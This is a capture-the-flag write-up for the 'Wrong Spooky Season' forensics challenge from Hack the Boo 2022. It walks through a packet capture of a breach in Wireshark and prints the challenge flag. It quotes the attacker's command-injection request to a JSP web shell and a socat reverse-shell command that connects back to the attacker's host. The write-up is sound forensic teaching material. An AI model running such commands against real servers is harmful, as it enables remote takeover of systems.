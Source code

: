 # Wrong Spooky Season
Hack the Boo CTF 2022

## Description

```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." 

Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

## Challenge Explanation

For this challenge, we are given a pcap file with network traffic that occured during a breach. The goal is to analyze the traffic and see what went down.


## The Breach

First, I opened the PCAP in Wireshark and filtered down to only HTTP requests. The early traffic looks innocuous, just retrieving images and HTML documents.

![http traffic data](http-traffic-1.png)

However, later on in the traffic, we can see the breach occur. First, we see evidence of a command injection in packet 416. The attacker hits an endpoint with a GET request, and a query string of `cmd=whoami`:

```GET /e4d1c32a56ca15b3.jsp?cmd=whoami HTTP/1.1\r\n```

In the server response, we can see that this command was executed on the victim's machine, and even worse, the result of the `whoami` command... this process is running as `root`!

![root](root.png)

After this, things devolve quickly. In packet 436, a command is sent to install Socat, a Linux tool used for working with sockets. Finally, in packet 464, the attacker sends the following command:

```
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash
```

This is a super basic reverse shell. The attacker has presumably set up a listener on their own machine at 192.168.1.180:1337 that is waiting for incoming TCP connections. The Socat command sent to the victim will cause the victim's machine to connect back to the attacker and spawn a shell that the attacker can then use.

## The Solution

At this point, I spun my wheels for a bit. Eventually, I realized that because the attacker now has a shell, there would of course be no further HTTP requests. Everything from this point on will just be TCP going to and from 192.168.1.180:1337. I removed the Wireshark filter and found that there were a bunch of messages sent after the creation of the reverse shell. In the packets that go `1337->45416`, we can see commands that the attacker is typing into the victim's shell. In packets going the other way, we can see the shell's output. In packet 500, the attacker sends a large command with `echo` and `socat`.

![flag command](flag.png)

This could be interesting. By using Wireshark's Trace feature, we get a nice view of the entire conversation:

![socat command](socat-command.png)

Among other things, it looks like the attacker is sending over a backwards base64-encoded string, and then reversing it once it's on the victim's machine. This was likely done to simulate the kinds of code obfuscation that would happen when a real attacker attempts to do something like getting malware past the victim's antivirus.

If we grab the base64 string, reverse it, and decode it ourselves, this is what we get: 

```
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

Success!